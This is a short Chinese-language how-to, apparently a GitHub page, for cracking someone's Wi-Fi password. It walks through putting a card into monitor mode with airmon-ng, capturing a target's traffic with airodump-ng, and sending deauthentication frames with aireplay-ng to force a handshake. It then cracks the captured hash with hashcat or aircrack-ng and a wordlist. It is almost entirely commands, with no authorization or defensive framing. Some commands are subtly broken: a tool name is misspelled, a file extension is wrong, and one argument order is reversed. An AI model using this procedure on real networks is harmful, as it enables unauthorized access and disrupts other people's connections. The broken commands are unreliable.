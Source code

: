 # 通过握手包获取 Wifi 密码

1. 查看網絡設備, 獲取無線網卡名稱.
```bash
iwconfig
```

2. 開啓無線網卡監聽模式.
```bash
sudo airmon-ng start wlan0
```
開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

3. 監聽 Wifi 信號.
```bash
sudo airodunp-ng wlan0mon
```
當發現目標 Wifi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 Wifi 通信內容.
```bash
sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
```

5. 斷開指定設備與指定 Wifi 的鏈接.
```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
```
目標設備從指定 Wifi 斷開鏈接後將嘗試衝連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.
此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.
  - 使用 Hashcat. (推薦)
    ```bash
    aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
    hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
    ```
  - 使用 aircrack-ng.
    ```bash
    aircrack-ng -w [.cap存檔文件] [字典文件]
    ```

